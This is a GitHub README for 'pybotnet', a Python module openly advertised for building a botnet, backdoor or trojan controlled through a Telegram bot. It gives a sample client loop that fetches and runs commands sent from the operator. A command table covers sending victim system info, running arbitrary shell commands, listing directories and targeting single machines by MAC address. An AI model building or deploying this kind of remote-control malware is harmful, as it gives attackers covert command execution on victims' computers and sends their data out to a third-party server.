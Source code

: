 # pybotnet  0.13

A Python module for building [botnet ,backdoor or trojan] with Telegram control panel
- [x] windows
- [x] linux
- [ ] mac :Not tested

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
from pybotnet import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 20

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
*Send this COMMANDs to your api bot in telegram, using the admin account.* \
*If you want the command to run only on one system, write the MAC address of that system first:* \
 `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | Works well on: |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep \<scconds> \<message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd \<system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls \<route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
